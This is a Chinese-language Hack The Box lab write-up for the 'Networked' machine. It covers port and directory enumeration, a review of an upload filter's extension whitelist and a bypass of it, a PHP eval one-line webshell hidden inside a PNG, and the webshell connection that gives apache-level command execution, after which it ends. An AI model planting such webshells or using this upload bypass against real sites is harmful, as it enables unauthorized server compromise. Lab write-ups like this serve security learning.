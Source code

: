 # Networked

![](.gitbook/assets/1571991474338.png)

## 列举

我们首先枚举开放端口，然后深入到每个服务以获取更多信息

### Nmap 端口扫描

```text
root@kali:~# nmap -A 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-24 15:24 CST
Nmap scan report for 10.10.10.146
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https
Aggressive OS guesses: Linux 4.4 (90%), Crestron XPanel control system (88%), Linux 3.10 - 4.11 (88%), Linux 3.13 (88%), Linux 3.13 or 4.2 (88%), Linux 4.1 (88%), Linux 4.10 (88%), Linux 4.2 (88%), Asus RT-AC66U WAP (88%), HP P2000 G3 NAS device (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   298.22 ms 10.10.14.1
2   298.38 ms 10.10.10.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.50 seconds

```

能够发现开放web服务、ssh服务

访问首页[http://10.10.10.146](http://10.10.10.146)

```markup
root@kali:~# curl http://10.10.10.146
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->    //该处提示到 upload 和 gallery
</body>
</html>
```

### Dirb 目录爆破

```text
root@kali:~# dirb http://10.10.10.146

​
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
​
START_TIME: Thu Oct 24 15:29:12 2019
URL_BASE: http://10.10.10.146/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
​
-----------------
​
GENERATED WORDS: 4612                                                          
​
---- Scanning URL: http://10.10.10.146/ ----
==> DIRECTORY: http://10.10.10.146/backup/                                     
+ http://10.10.10.146/cgi-bin/ (CODE:403|SIZE:210)                             
+ http://10.10.10.146/index.php (CODE:200|SIZE:229)   
```

爆破网站后台，发现链接[http://10.10.10.146/backup/](http://10.10.10.146/backup/)

![](.gitbook/assets/1572254855159.png)

获取backup.tar，内部文件基本与提示相符合

![](.gitbook/assets/1572255091608.png)

查阅以上四个文件信息

### 文件上传

分析upload.php 文件上传限制

```text
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';

      displayform();
    }
```

该处对文件大小进行限制小于60000 报错，**CONTENT-LENGTH**验证

```text
    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"
];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
​
```

该处`$validext = array('.jpg', '.png', '.gif', '.jpeg');`,对上传的文件类型进行白名单限制

采用图片马上传,创建`shell.php`

{% code-tabs %}
{% code-tabs-item title="编写PHP一句话木马" %}
```text
<?php 
    @eval($_POST['pass']);
    phpinfo(); 
?>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="生成图片马" %}
```text
root@kali:~/桌面# cat 127_0_0_3.png shell.php > hack2.php

```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](.gitbook/assets/1571987151404.png)

通过burp修改数据包，将后缀修改为php.jpg 成功上传

![](.gitbook/assets/1571985407088.png)

访问图片马所在位置，[http://10.10.10.146/uploads/10\_10\_14\_6.php.jpg](http://10.10.10.146/uploads/10_10_14_6.php.jpg)

![](.gitbook/assets/1571985453841.png)

验证成功，使用`webshell`管理工具进行连接

## 开发

### 生根

![](.gitbook/assets/1571985595114.png)

成功连接，并且能够命令执行

![](.gitbook/assets/1571991084791.png)

当前获得apache权限，权限低于普通用户guly

当前暂无进一步提权思路，放置于此。待成功后继续编写.

